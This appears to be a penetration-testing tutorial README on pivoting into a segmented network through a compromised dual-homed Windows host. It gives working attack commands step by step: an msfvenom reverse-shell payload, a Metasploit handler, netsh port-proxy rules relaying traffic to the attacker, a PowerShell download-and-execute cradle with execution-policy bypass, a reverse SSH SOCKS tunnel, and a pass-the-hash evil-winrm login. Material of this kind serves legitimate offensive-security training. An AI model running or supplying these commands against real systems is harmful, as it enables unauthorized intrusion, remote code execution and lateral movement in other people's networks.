 ## Reverse SSH Tunnel Method
As a penetration tester, you are expected to know how to pivot between hosts even when they reside on segmented networks. Segmented hosts are typically in-scope and often engagement target(s). The following example examines one method to accomplish segmented network pivoting via a dual-homed server compromised by the attacker without writing any third-party tools to disk.
***
### Simplified Segmented Network
![Segmented Network Example](segmented-network-live-off-the-land-example.png)

### Simplified Segmented Network Details
The following are the relevant example details:
```plaintext
Attacker IP:
	192.168.75.85

Dual-Homed Compromised Host (Windows x64) IPs:
	192.168.200.200
	10.10.1.200

Target Internal Client (Windows x64) IP:
	10.10.1.50

Intended Pivot:
	192.168.75.85 -> 192.168.200.200 -> 10.10.1.50

Additional Route Details:
	192.168.75.85 -> 10.10.1.50 = No Route To Host
	10.10.1.50 -> 192.168.75.85 = No Route To Host
```

### Assumptions
1. Dual-Homed Compromised Host is already compromised by the attacker
2. The attacker has escalated their privileges to Administrator, SYSTEM, or equivalent
3. Interaction via RDP, WinRM, webshell, xp_cmdshell, etc., with Target Internal Client is already direct possible via session (RDP or otherwise) on Dual-Homed Compromised Host.
4. The unaltered MSFVenom payload is sufficient to bypass defenses such as AMSI and Defender. During real engagements default payloads like this should not be used. For the purposes of simplifying this example, we assume the payload will execute properly.
---
### Step-By-Step Instructions For Pivot
1. (Kali) Make payload and place in apache default webroot. Note that the IP address in the command belongs to the Dual-Homed Compromised Host. In a later step we configure the Dual-Homed Compromised Host to forward the shell traffic to the attacker's Kali
```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.1.200 LPORT=8669 -f psh -o /var/www/html/win-x64-8669.txt;
```
2. (Kali) Start apache2 to host payload
```zsh
sudo service apache2 start;
```
3. (Kali) Start MSFConsole's multi/handler to receive callback shell
```zsh
msfconsole -q -x "use multi/handler; set PAYLOAD windows/x64/shell_reverse_tcp; set LHOST tun0; set LPORT 8669; set ExitOnSession false; exploit -j";
```
4. (Compromised Host) Open up TCP port 4422. Used to reach the attacker on port 80 to download payload
```powershell
netsh advfirewall firewall add rule name="TCP Port 4422 Allow In" dir=in action=allow protocol=TCP localport=4422;
```
5. (Compromised Host) Redirect TCP traffic received on 4422 (listening on internal 10.10.1.200) and redirect it to attacker at 192.168.75.85 port 80
```powershell
netsh interface portproxy add v4tov4 listenport=4422 listenaddress=10.10.1.200 connectport=80 connectaddress=192.168.75.85;
```
6. (Compromised Host) Open up TCP port 8669. Used to reach the attacker on port 8669 for callback shell
```powershell
netsh advfirewall firewall add rule name="TCP Port 8669 Allow In" dir=in action=allow protocol=TCP localport=8669;
```
7. (Compromised Host) Redirect TCP traffic received on 8669 (listening on internal 10.10.1.200) and redirect it to attacker at 192.168.75.85 port 8669
```powershell
netsh interface portproxy add v4tov4 listenport=8669 listenaddress=10.10.1.200 connectport=8669 connectaddress=192.168.75.85;
```
8. Using exploit, RDP / WinRM / other connection from compromised host to target internal host, download "win-x64-8669.txt" from attacker. Note that the IP address used is the compromised host and the port (4422) is the one redirected to the attacker at 192.168.75.85 port 80
```powershell
powershell -ep bypass -c "(New-Object System.Net.WebClient).DownloadString('http://10.10.1.200:4422/win-x64-8669.txt') | IEX"
```
9. Receive remote shell in MSFConsole
***
***
### Additional Pivoting Option via Reverse SSH Tunnel
In some cases, you will want to have a socket opened on the Compromised Dual-Homed Host for your tools, such as CrackMapExec, Evil-WinRM, SQLMap, etc., to tunnel through. Doing so allows your local tools to work with proxychains to reach and target otherwise unreachable hosts on segmented networks. To make this socket, we can use the SSH client on the compromised host SSH into our Kali machine and open a socket locally (on Kali) that we can pivot through.

Before continuing, first ensure you have proxychains4 setup:
```zsh
sudo apt update
sudo apt install proxychains4
```

#### Step-By-Step Instructions For SSH Reverse Tunnel
1. Create a new Kali user and ensure they are allowed to SSH into your instance. (Alternatively, use the provided script named `generate-ssh-user.sh` to create, and delete when finished with the `--clean` flag, temporary ssh users.)
2. Using PowerShell on the Compromised Dual-Homed Host, SSH into your Kali machine using the following command (only use the "-i" option if you are using an identity file for SSH authentication to your Kali machine and have placed this file on the Compromised Host):
```zsh
ssh -R 1080 <generated_user>@<kali_IP_address> -i <file_path_to_private_identity_file_if_using_one>
```
3. Ensure your `/etc/proxychains4.conf` has `socks5 127.0.0.1 1080` under `[ProxyList]`. An example of a working `proxychains4.conf` file, with all comments removed, is shown below:
```plaintext
strict_chain
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5 127.0.0.1 1080
```
4. Using proxychains, you can now reach any host the Compromised Host can reach as long as the SSH session to your Kali machine remains intact. The following is an example command you could use to obtain a remote shell directly from Kali if WinRM is enabled on the Target Internal Client (10.10.1.50) and you have the local Administrator password hash, which is `ddce269a1e3d054cae349621c198dd52` in this example. (Note that the `-q` flag suppresses proxychains output but is not required)
```zsh
proxychains -q evil-winrm -i 10.10.1.50 -u Administrator -H ddce269a1e3d054cae349621c198dd52
```
